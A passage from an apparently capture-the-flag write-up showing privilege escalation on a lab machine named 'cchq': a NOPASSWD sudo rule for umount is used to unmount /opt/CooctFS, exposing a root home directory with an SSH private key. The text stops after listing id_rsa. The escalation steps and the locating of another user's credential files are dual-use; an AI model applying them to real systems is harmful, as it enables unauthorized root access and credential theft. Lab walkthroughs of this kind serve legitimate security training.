 ### [Q5, Get full root privileges]

![Cry](./img/cry.gif)

You can see what commands can varg run as root: 

```
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

So what should we unmount?
So what should we unmount? It looks like, they have mounted something in /opt

```
varg@cchq:~$ ls /opt/CooctFS/
bin  boot  etc  games  lib  run  tmp  var
```

Maybe unmount that with sudo?

```
varg@cchq:~$ sudo /bin/umount /opt/CooctFS
```

Interesting ...

```
varg@cchq:~$ cd /opt/CooctFS/
varg@cchq:/opt/CooctFS$ ls
root
varg@cchq:/opt/CooctFS$ ls root/
root.txt
varg@cchq:/opt/CooctFS$ cat root/root.txt 
hmmm...
No flag here. You aren't root yet.
```

But you can find id_rsa private key ... :)

```
varg@cchq:/opt/CooctFS$ ls -la root/
total 28
drwxr-xr-x 5 root root 4096 Feb 20 09:16 .
drwxr-xr-x 3 root root 4096 Feb 20 09:09 ..
lrwxrwxrwx 1 root root    9 Feb 20 09:15 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Feb 20 09:09 .bashrc
drwx------ 3 root root 4096 Feb 20 09:09 .cache
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .local
-rw-r--r-- 1 root root   43 Feb 20 09:16 root.txt
drwxr-xr-x 2 root root 4096 Feb 20 09:41 .ssh
varg@cchq:/opt/CooctFS$ cd root/.ssh/
varg@cchq:/opt/CooctFS/root/.ssh$ ls
id_rsa  id_rsa.pub
```
